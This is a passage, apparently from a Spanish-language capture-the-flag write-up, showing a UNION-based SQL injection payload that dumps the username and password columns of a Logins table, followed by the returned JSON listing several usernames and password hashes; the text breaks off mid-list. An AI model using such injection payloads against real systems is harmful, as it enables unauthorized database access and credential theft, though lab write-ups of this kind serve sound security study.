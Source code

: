 Dumpeo los datos de las columnas "username" y "password"

```null
-> test' union select 1,username,password,4,5 from Logins-- -
[
     {
          "id": 1,
          "name": "aldom",
          "position": "9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "alyx",
          "position": "fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "ckane",
          "position": "68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "cyork",
          "position": "9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "egre55",
          "position": "cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "ilee",
          "position": "68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "james",
          "position": "9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "jorden",
```